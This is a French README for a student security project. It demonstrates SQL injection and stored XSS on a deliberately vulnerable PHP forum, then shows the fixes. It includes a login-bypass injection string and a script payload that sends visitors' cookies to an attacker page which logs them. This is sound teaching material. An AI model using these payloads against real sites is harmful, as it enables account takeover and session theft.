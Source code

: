 # Projet-web-secu
**Ecole**: IMT Atlantique.
Dans le cadre de ce projet, nous sommes partie d’un site web que j’ai développée en PHP sur laquelle j’ai exploré les possibles failles qu’elle pourrait contenir.

L’application est un forum de discussion informatique. qui offre la possibilité de s’authentifier, de soumettre des sujets et desmessages.

**Outils**: PHP, HTML, CSS, MySQL, PHPMYADMIN

**Prérequis:**

   - installer [WampServer](https://www.wampserver.com/)
   - mettre tous les 3 repertoires (siteattaquant, myforum et myforumsecu) à la racine du rempertoire www de wamp (e.g sur windows: `C:\wamp64\www`)
   - importer la base de données `myforum.sql` dans phpmyadmin
## Mise en évidence d’une faille d’injection SQL

Pour contribuer au forum c’est-à-dire réponndre créer un sujet, ecrire un message, l’on a besoin de se connecter avec un pseudo et un mot de mot de passe. 
Ici nous verons que même un utilisateur qui n’a pas de compte peut se connecter fraduleusement et causer des degâts  avec de l’injection SQL dans la page de login.

Dans la page de connexion nous rentrons le pseudo d’un utilisateur existant toto par exemple et password qui n’est pas celle de l’utilisateur toto: " or ""="
et on vois que nous sommes connectés comme etabt l’utilisateur toto. Ce qui nous permet de créer des sujets en tant que utilisateur toto

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/1.png)

## Solution

Dans la version sécurisé du site (http://localhost/myforumsecu) nous avons utliser les réquêtes préparées dans le code qui êrmet de se connecter (`loger.php`) pour palier ce problème.
l’ancienne ligne:
`$result =$id_con->query('SELECT * FROM users WHERE id_user="'.$pseudo.'" AND passwd="'.$pass.'" ') ;`
devient:

`$result = $id_con->prepare("SELECT * FROM users where id_user = :pseudo AND passwd = :pass");`
`$result -> execute(array('pseudo' => $pseudo, 'pass' => $pass));`

## Mise en évidence de la faille XSS

Dans la version non sécurisée du site (http://localhost/myforum) mettons dans le champs de commentaire le message `<u>hello attaquant</u>`

On constate que la mise en forme html est faite. On se retrouve donc avec hello attaquant. Le plus gros problème est que cette faille est persistante, car inscrite dans la base de données.

Ayant connaissance de cette faille, l'attaquant pourrait casser la structure du site. Comme nous le montrerons ici en injectant du code javascript faisant une redirection vers le site google.com.

`<script>document.location="https://www.google.com"</script>`

On constate qu’à chaque ouverture du sujet contenant le code injecté il y a une redirection automatique vers google.com. Ce qui est inquiétant c’est que cela reste permanent.

## Exploitation de la faille

Essayons d’exploiter cette faille pour voler des cookies qui dans un cas précis pourrait permettre à un attaquant de s'attribuer des rôles plus élevés que prévu.

Ici nous allons écrire un code PHP (https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant/index.php) permettant de récupérer les cookies des utilisateurs.
Ce code se trouve peut se trouver sur un autre serveur distant (celui de l’attaquant par exemple https://github.com/ang67/Projet-secu-webapp/tree/main/siteattaquant ). Dans ce code on récupère les cookies, puis on les stocke et enfin, on redirige l’utilisateur vers l’accueil comme si rien ne s’était passé. Pour notre exemple le site a décidé de sauvegarder les mots de passe et login pour permettre de se souvenir de l’utilisateur lors d’une nouvelle connection.

Maintenant l’attainjectons un code javascript dans un message ou dans un sujet qui redirige vers le code PHP malveillant.

`<script>document.location="http://localhost/siteattaquant?cookie="+document.cookie;</script>`

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/2.png)

Maintenant l’attaquant a réussi son coup et s’attend à recoter le buttin. Si un l’utilisateur se connect en accèptant que le site se souvienne de lui, ou pour d’autres cookies par exemple, l’attaquant récupère alors toutes ces données sensibles dans un repertoire (`C:\wamp64\www\siteAttaquant\stolen_data.txt`) lors de sa visite sur la page contenant le code injecté.

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/3.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/4.png)

![](https://github.com/ang67/Projet-secu-webapp/blob/main/img/5.png)

## Solution

 Dans la version sécurisée du site (http://localhost/myforumsecu) nous avons

  - protégé les cookies en ajoutant l'attribut ***HttpOnly***
  - utilisé la méthode ***htmlspecialchars*** avec le flag *ENT_IGNORE* pour remplacer tous les caractères HTML. (https://www.php.net/manual/fr/function.htmlspecialchars.php)



